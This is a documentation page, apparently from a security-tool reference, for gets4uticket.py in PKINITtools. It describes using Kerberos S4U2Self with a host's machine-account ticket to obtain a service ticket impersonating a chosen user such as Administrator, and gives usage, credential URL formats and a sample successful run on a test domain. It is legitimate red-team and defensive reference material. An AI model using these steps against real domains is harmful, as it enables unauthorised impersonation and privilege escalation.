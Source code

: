 ```yaml
---
title : "gets4uticket.py"
# pre : ' '
description : "Gets an S4U2self ticket impersonating given user."
date : 2023-12-03T06:11:51+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## gets4uticket.py - Gets an S4U2self ticket impersonating given user

Uses Kerberos S4U2Self to request a service ticket that is valid on the host for which you've obtained a certificate. This ticket can then be used to interact with the original host. This only requires a TGT for the machine account of this host. This TGT should be in a ccache file that you specify in the `kerberos_connection_url`. The only accepted `kerberos_connection_url` for this example is one containing a ccache file, so for example `kerberos+ccache://domain.local\\victimhostname\$:victimhostname.ccache@kdchostname.domain.local`. The SPN should be a service name on the host you are impersonating, you can't use this for delegation attacks (since it does not implement S4U2Proxy, there are plenty of tools already for that).

## Installation

Install [PKINITtools]({{< ref "pkinittools" >}}).

## Usage

```plain
gets4uticket.py [-h] [-v] kerberos_connection_url spn targetuser ccache
```

## Flags

```plain
positional arguments:
  kerberos_connection_url
                        the kerberos target string in the following format kerberos+ccache://domain\user:file.ccache@<domaincontroller-ip>
  spn                   the service principal in format <service>/<server-hostname>@<domain> Example: cifs/fileserver.test.corp@TEST.corp for a TGS ticket to be used for file access on server "fileserver". IMPORTANT:
                        SERVER'S HOSTNAME MUST BE USED, NOT IP!!!
  targetuser
  ccache                ccache file to store the TGT ticket in

options:
  -h, --help            show this help message and exit
  -v, --verbose

==== Extra Help ====
   kerberos connection url secret types: 
   - Plaintext: "pw" or "pass" or "password"
   - NT hash: "nt"
   - RC4 key: "rc4"
   - AES128/256 key: "aes"
   - CCACHE file: "ccache"
   - SSPI: "sspi"
   
   Example:
   - Plaintext + SOCKS5 proxy:
      kerberos+password://domain\user:SecretPassword@127.0.0.1/proxytype=socks5&proxyhost=127.0.0.1&proxyport=1080
   - Plaintext:
      kerberos+password://domain\user:SecretPassword@127.0.0.1
      kerberos+pw://domain\user:SecretPassword@127.0.0.1
      kerberos+pass://domain\user:SecretPassword@127.0.0.1
   - NT hash:
      kerberos+nt://domain\user:921a7fece11f4d8c72432e41e40d0372@127.0.0.1
   - SSPI:
      TEST/user/sspi:@192.168.1.1
   - RC4 key:
      kerberos+rc4://domain\user:921a7fece11f4d8c72432e41e40d0372@127.0.0.1
   - AES key:
      kerberos+aes://domain\user:921a7fece11f4d8c72432e41e40d0372@127.0.0.1
   - CCACHE file:
      kerberos+ccache://domain\user:creds.ccache@127.0.0.1
   - KEYTAB file:
      kerberos+keytab://domain\user:creds.keytab@127.0.0.1
   - PFX file:
      kerberos+pfx://TEST.corp\Administrator:admin@10.10.10.2/?certdata=test.pfx
   - PFX string (b64):
      kerberos+pfxstr://TEST.corp\Administrator:admin@10.10.10.2/?certdata=BASE64DATA
   - No auth (preauth not req):
      kerberos+none://TEST.corp\asrepuser@10.10.10.2/
```

## Examples

```plain
(PKINITtools) user@localhost:~/PKINITtools$ python gets4uticket.py kerberos+ccache://testsegment.local\\s2019dc\$:s2019dc.ccache@s2016dc.testsegment.local cifs/s2019dc.testsegment.local@testsegment.local Administrator@testsegment.local out.ccache -v
2021-07-28 10:09:13,687 minikerberos INFO     Trying to get SPN with Administrator@testsegment.local for cifs/s2019dc.testsegment.local@testsegment.local
2021-07-28 10:09:13,695 minikerberos INFO     Success!
2021-07-28 10:09:13,696 minikerberos INFO     Done!
```
